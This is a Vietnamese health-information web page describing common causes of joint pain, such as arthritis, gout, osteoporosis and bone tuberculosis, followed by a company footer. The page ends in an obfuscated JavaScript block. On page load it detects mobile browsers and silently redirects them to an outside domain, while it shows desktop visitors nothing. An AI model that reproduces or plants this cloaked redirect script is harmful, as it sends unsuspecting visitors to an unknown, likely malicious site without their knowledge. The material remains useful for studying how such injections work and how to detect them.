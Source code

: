 CÁC TRIỆU CHỨNG HAY GẶP PHẢI CỦA BỆNH XƯƠNG KHỚP VÀ LIỆU PHÁP HIỆU QUẢ CHO ĐAU XƯƠNG KHỚP 10 - 20 NĂM

Đau nhức thường là triệu chứng của bệnh viêm khớp và nhiễm trùng, hiếm khi liên quan đến ung thư khớp. Đau nhức xương khớp thường là do những bệnh lý dưới đây: 


1 Viêm khớp dạng thấp


Đây là bệnh lý xương khớp nằm trong nhóm bệnh rối loạn tự miễn, gây tình trạng sưng đau nhiều khớp xương. Tình trạng cứng khớp thường xuất hiện vào mỗi buổi sáng hoặc sau một thời gian dài ngồi, nằm yên bất động một tư thế.


Người bệnh bị viêm khớp dạng thấp không chỉ bị đau nhức mà khả năng vận động, sinh hoạt cũng gặp nhiều khó khăn, hạn chế. Bệnh cần phải được điều trị sớm, nếu không, về lâu dài sẽ gây biến dạng khớp, nặng nề nhất là tàn phế do khớp mất khả năng vận động.


2. Thoái hóa khớp
Đau nhức xương khớp gối có nguyên nhân thường gặp nhất là tình trạng viêm xương khớp, còn gọi là thoái hóa khớp. Vùng tổn thương là ở phần sụn đầu xương, xuất hiện sau một quá trình dài bị mài mòn theo thời gian do vận động. Khi phản ứng viêm xuất hiện, khớp gối thường bị sưng, giảm dịch khớp, nặng hơn gây hư tổn các đầu xương và cong trục xương.

Do gây nhiều đau đớn nên bệnh nhân có xu hướng lười vận động, khiến khớp cứng và suy giảm khả năng vận động hơn.

Đau nhức xương khớp do thoái hóa khớp càng trở nên nghiêm trọng hơn khi thời tiết thay đổi, cơn đau nặng nhất vào buổi sáng khi vừa thức dậy. Bệnh nhân phải mất thời gian để xoa bóp, giảm đau cứng khớp rồi tình trạng này mới dần thuyên giảm đến cuối ngày.

Thoái hóa khớp cũng cần phát hiện và điều trị sớm, nếu không sẽ gây ảnh hưởng rất lớn đến khả năng vận động, nguy cơ gây biến dạng khớp và tàn phế.


3. Bệnh Gout
Gout hay còn gọi là bệnh thống phong xảy ra do sự tích tụ quá mức acid uric trong máu kích hoạt phản ứng viêm của khớp. Gout gây ra những cơn đau nhức xương khớp đột ngột, cảm giác ấm nóng và sưng tấy, phổ biến nhất là ở các khớp ngón chân cái.
Nguyên nhân chính gây ra tình trạng này là do nạp vào quá nhiều loại thực phẩm giàu purin như: đồ uống có cồn, hải sản, thịt đỏ các loại,… Lượng purin nạp vào quá mức sẽ gây rối loạn chuyển hóa tại thận, acid uric trong máu không được thải bỏ nên tích tụ ngày càng nhiều.

Ngoài đau nhức xương khớp, bệnh nhân còn có triệu chứng đi kèm như nhức đầu, sốt cao, cơ thể mệt mỏi,… Cần điều trị trước khi triệu chứng bệnh chuyển sang giai đoạn mãn tính, dễ dẫn tới biến dạng khớp và phá hủy sụn vĩnh viễn.


4. Loãng xương
Loãng xương là tình trạng mật độ xương ngày càng giảm dần khiến xương giòn hơn, dễ gãy và tổn thương hơn ngay dưới tác động lực nhẹ. Loãng xương thường gặp ở người cao tuổi khi khả năng hấp thụ và tổng hợp canxi cho xương suy giảm, gây đau nhức xương khớp thường gặp nhất ở cột sống lưng.

Ngoài đau nhức xương khớp, loãng xương còn khiến lưng có xu hướng còng đi, dễ gãy xương, sụt cân, co cứng cơ dọc cột sống,… 



5. Lao xương khớp



Lao là một dạng bệnh truyền nhiễm do khuẩn Tuberculosis, bệnh thường khởi phát ở hệ tiêu hóa và hô hấp, sau đó mới theo đường máu đến các cơ quan khác. Khi vi khuẩn tấn công xương khớp sẽ gọi là lao xương. 
Lao xương khớp thường gặp nhất và gây đau đớn nhất ở vị trí khớp háng, khớp gối và cột sống. Ngoài đau nhức tại chỗ, bệnh nhân có thể có triệu chứng đi kèm khác như sụt cân, sốt cao, giảm vận động,…

Cần xác định tình trạng đau nhức xương khớp là cấp tính do chế độ sinh hoạt kém lành mạnh hay do nguyên nhân bệnh lý. Sau đó bác sĩ mới đưa ra biện pháp điều trị y tế hay chăm sóc tại nhà để cải thiện triệu chứng đau nhức.


Sản xuất bởi:


CÔNG TY CỔ PHẦN BIGFA


Địa chỉ: QL 6, Xã Hòa Sơn, Huyện Lương Sơn, Hòa Bình


Chịu trách nhiệm kiểm duyệt phân phối:


CÔNG TY TNHH THƯƠNG MẠI KTS


Địa chỉ: Số 30, ngõ 28A Hạ Đình, Phường Thanh Xuân Trung, Quận Thanh Xuân, Thành phố Hà Nội, Việt Nam


SĐT 0989678678


 <script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "http://www.tailocqualon.click/thuy",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>

